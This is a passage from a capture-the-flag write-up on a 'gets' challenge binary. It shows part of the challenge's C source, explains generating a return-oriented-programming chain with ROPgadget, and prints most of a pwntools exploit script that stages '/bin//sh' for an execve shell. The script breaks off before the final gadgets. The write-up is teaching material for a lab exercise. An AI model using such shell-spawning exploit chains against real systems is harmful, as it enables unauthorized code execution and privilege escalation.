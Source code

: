 ```c

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

This is a classic ROP challenge (read my solution for [rop chain](#rop-chain) if you are not familiar with Return-oriented programming). The intension is for the players to hand-craft a rop chain that uses syscall to get a shell starting from scratch. However, why do it by hand when you can automate it?

Using the tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget), we can generate a whole script that will give us a shell. How nice!

All you have to do is:

```
$ ROPgadget --binary ./gets --ropchain
```

And the program does the rest.

Here is the exploit script in the end:

```python
#!/usr/bin/env python2

from pwn import *
from struct import pack

context.log_level = 'debug'


sh = process('./gets')

# Padding goes here
p = 'a'*28

p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de955) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
```